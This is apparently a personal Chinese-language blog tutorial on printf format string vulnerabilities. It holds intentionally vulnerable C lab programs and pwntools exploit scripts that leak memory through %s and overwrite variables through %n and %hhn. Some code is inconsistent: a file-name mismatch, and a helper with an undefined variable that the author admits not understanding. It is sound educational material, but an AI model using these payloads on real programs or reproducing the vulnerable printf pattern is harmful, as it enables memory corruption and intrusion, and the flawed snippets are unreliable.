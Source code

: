 ﻿---
layout:     post
title:      格式化字符串漏洞
subtitle:   
date:       2023-10-15
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

格式化字符漏洞

主要利用到以下的4种格式：

- s，如果没有用 l 标志，输出 null 结尾字符串直到精度规定的上限；如果没有指定精度，则输出所有字节。如果用了 l 标志，则对应函数参数指向 wchar_t 型的数组，输出时把每个宽字符转化为多字节字符，相当于调用 wcrtomb 函数。
- x/X，16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
- p， void * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
- n，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

### 漏洞原理

wiki上面写的很详细了，直接复制如下：

```
Input: printf("Color %s, Number %d, Float %4.2f", "red", 123456, 3.14)
Output: Color red, Number 123456, Float 3.14
```

以上面的函数为例，在进入 printf 函数的之前 (即还没有调用 printf)，栈上的布局由高地址到低地址依次如下

```
some value
3.14
123456
addr of "red"
addr of format string: Color %s...
```

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
  - 如果没有字符，报错
  - 如果下一个字符是 %, 输出 %
  - 否则根据相应的字符，获取相应的参数，对其进行解析并输出

那么假设，此时我们在编写程序时候，写成了下面的样子

```
printf("Color %s, Number %d, Float %4.2f");
```

此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为

1. 解析其地址对应的字符串
2. 解析其内容对应的整形值
3. 解析其内容对应的浮点值

对于 2，3 来说倒还无妨，但是对于对于 1 来说，如果提供了一个不可访问地址，比如 0，那么程序就会因此而崩溃。

### 利用

1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。

```c
// 目标程序：leakmemory
// 编译：gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

#### 获知格式化字符串位置

首先通过`aaaa%p%p%p%p%p%p%p%p%p%p`查看输出中的0x41414141所在的位置，例如：

```
./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x70257025%
```

可以看到，0x41414141是第四个%p得到的结果，从而确定当前的格式化字符串的起始地址是输入函数的第五个参数，格式化字符串的第四个参数。

#### 泄露任意地址内存

如果我们获取到`leakmemory.got['__isoc99_scanf']`的地址为0x804c014，就可以通过输入`b'\x14\xc0\x04\x08%4$s'`，来得到`__isoc99_scanf`对应的libc的位置。exp如下：

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print (hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print (payload)
# gdb.attach(sh)
sh.sendline(payload)
print (hex(u32(sh.recv()[4:8]))) # remove the first bytes of __isoc99_scanf@got
```

#### 覆盖内存

```c
//目标程序：overflow
/* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

首先获取格式化字符串的位置

```
0xffd006bc
aaaa%p%p%p%p%p%p%p%p%p%p%p
aaaa0xffd006580xf7f357b00x1(nil)0x10x616161610x702570250x702570250x702570250x702570250x70257025%
```

可以看到是`0x61616161`是格式化字符串的第六个参数。

修改c的值为16的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
# gdb.attach(sh)
c_addr = int(sh.recvuntil(b'\n', drop=True), 16)
success('get c_addr: ' + hex(c_addr))

# 注意%n是将已经输出的字符的长度写入到指定地址
# 所以我们需要先输出c_addr共4个字节
# %012p用来将一个指针的地址以十六进制形式输出，并且总宽度为12个字符（包括前缀0x）
# 此时我们总输出了16个字节，再使用%n将16写入到c_addr中

payload = p32(c_addr) + b'%012p' + b'%6$n'
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

修改c的值为2的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)  

# 因为a,b是全局变量，所以可以直接找到它的地址  
# 65: 0804a024     4 OBJECT  GLOBAL DEFAULT   25 a
# 52: 0804a028     4 OBJECT  GLOBAL DEFAULT   25 b
a_addr = overwrite.symbols['a']
sh.recvuntil(b'\n')

# aa%8是第6个参数，$nxx是第7个，a_addr是第8个  
# 所以这里是先输出aa，使得输出字符数为2，然后通过%n将a的值修改为2  
# 最后的xx是为了和%n组合补齐8个字节  
payload = b'aa%8$nxx' + p32(a_addr)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

下图为执行printf时的栈，同样可以看到：

- a的地址是函数第9个参数（格式化字符串的第8个参数）
- $nxx 刚好8个字节补齐

 ![16973665339831697366533459.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16973665339831697366533459.png)

修改b为0x12345678的exp如下：

这个exp还没看明白，改天继续研究

```python
from pwn import *

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr

def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i).decode('latin1')
        else:
            payload += p64(addr + i).decode('latin1')
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload.encode('latin1')

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)
b_addr = overwrite.symbols['b']
sh.recvuntil(b'\n')

payload = fmt_str(6,4,b_addr,0x12345678)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())

```


